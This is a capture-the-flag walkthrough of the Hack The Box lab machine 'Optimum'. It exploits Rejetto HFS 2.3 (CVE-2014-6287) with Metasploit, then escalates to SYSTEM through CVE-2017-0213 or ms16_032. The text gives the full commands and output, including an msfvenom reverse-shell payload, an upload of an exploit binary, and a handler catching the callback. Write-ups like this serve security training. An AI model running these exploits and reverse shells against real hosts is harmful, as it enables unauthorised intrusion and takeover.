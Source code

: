 # Optimum - 10.10.10.8

## Nmap Scan

```bash
db_nmap -A -v -n -p- 10.10.10.8
```
Port 80 is open, and there is a HFS 2.3 running on it.
```
> services -R 10.10.10.8

Services
========

host    	port  proto  name  state  info
----    	----  -----  ----  -----  ----
10.10.10.8  80	tcp	http  open   HttpFileServer httpd 2.3

RHOSTS => 10.10.10.8

```

## Getting a shell

_Disclaimer: it took me much longer than it should have to get a shell, so apparently updating msf every once in a while is not a bad idea after all..._

Use Rejetto HttpFileServer Remote Command Execution ([CVE-2014-6287](http://cvedetails.com/cve/cve-2014-6287))
```
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.195:4444
[*] Using URL: http://0.0.0.0:8080/N6vO0crvdn
[*] Local IP: http://10.0.2.15:8080/N6vO0crvdn
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /N6vO0crvdn
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.195:4444 -> 10.10.10.8:49351) at 2017-10-27 21:16:51 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\aLEvvN.vbs' on the target
[!] Tried to delete %TEMP%\aLEvvN.vbs, unknown result

meterpreter >
```

## Priv esc

```
meterpreter > sysinfo
Computer    	: OPTIMUM
OS          	: Windows 2012 R2 (Build 9600).
Architecture	: x64
System Language : el_GR
Domain      	: HTB
Logged On Users : 1
Meterpreter 	: x86/windows
```

[CVE 2017-0213](http://www.cvedetails.com/cve/cve-2017-0213) looks like a great fit.

```
meterpreter > upload /root/Downloads/CVE-2017-0213_x64.exe kingpin.exe
[*] uploading  : /root/Downloads/CVE-2017-0213_x64.exe -> kingpin.exe
[*] uploaded   : /root/Downloads/CVE-2017-0213_x64.exe -> kingpin.exe
meterpreter > execute kingpin.exe
```

### El problemo

The exploit is finishing the execution and indeed elevates the privileges to Administrator. The problem is that is spawns a new shell, this can be verified by ```meterpreter> screenshot```.
![Sick shell](https://i.imgur.com/nr5Zi5C.jpg
 "Sick shell")
### Solution
 Compiling c++ with Win SDK on Linux is painful, so you can just grab a modified exploit which executes ```venomrs.exe``` from [this fork](https://github.com/leolashkevych/Exploits/tree/master/CVE-2017-0213) of the exploit.

 Making a meterpeter reverse shell
 ```
 root@kingpin:~# msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.14.195 lport=6666 -f exe -o venomrs.exe
 No platform was selected, choosing Msf::Module::Platform::Windows from the payload
 No Arch selected, selecting Arch: x64 from the payload
 No encoder or badchars specified, outputting raw payload
 Payload size: 205379 bytes
 Final size of exe file: 211968 bytes
 Saved as: venomrs.exe
 ```

 Uploading modified exploit and reverse shell
 ```
 meterpreter > upload /root/Downloads/exploit-x64.exe kingpin.exe
 [*] uploading  : /root/Downloads/exploit-x64.exe -> kingpin.exe
 [*] uploaded   : /root/Downloads/exploit-x64.exe -> kingpin.exe
 meterpreter > upload /root/venomrs.exe venomrs.exe
 [*] uploading  : /root/venomrs.exe -> venomrs.exe
 [*] uploaded   : /root/venomrs.exe -> venomrs.exe
 meterpreter > background
 [*] Backgrounding session 2...
 ```
 Launch a multi handler to catch a connection
 ```
msf exploit(rejetto_hfs_exec) > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > show options
msf exploit(handler) > set lport 6666
lport => 6666
msf exploit(handler) > set lhost 10.10.14.195
lhost => 10.10.14.195
msf exploit(handler) > exploit
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.195:6666
 ```
Lastly, go back to the session to execute the exploit.

```
meterpreter > execute -f kingpin.exe
Process 1492 created.
[*] Sending stage (205379 bytes) to 10.10.10.8
[*] Meterpreter session 3 opened (10.10.14.195:6666 -> 10.10.10.8:49661) at 2017-10-29 17:02:28 -0400
```
Navigate to a new session and check the user :)
```
meterpreter > background
[*] Backgrounding session 2...
msf exploit(handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Alternative solution

There is an way around it without creating an executable with reverse shell. First, migrate the current shell to a 64-bit process (Important!)

Switch to writable directory (e.g. Desktop) and background the session.
Select ```ms16_032_secondary_logon_handle_privesc``` from exploit/windows/local. Set the target to Windows x64, then set the payload to 64-bit meterpeter.

```
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.14.195:6666
[*] Writing payload file, C:\Users\kostas\Desktop\DtsLHDR.txt...
[*] Compressing script contents...
[+] Compressed size: 3580
[*] Executing exploit script...
[*] Sending stage (205379 bytes) to 10.10.10.8
[*] Meterpreter session 5 opened (10.10.14.195:6666 -> 10.10.10.8:49224) at 2017-10-29 02:05:41 -0400
[+] Cleaned up C:\Users\kostas\Desktop\DtsLHDR.txt

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
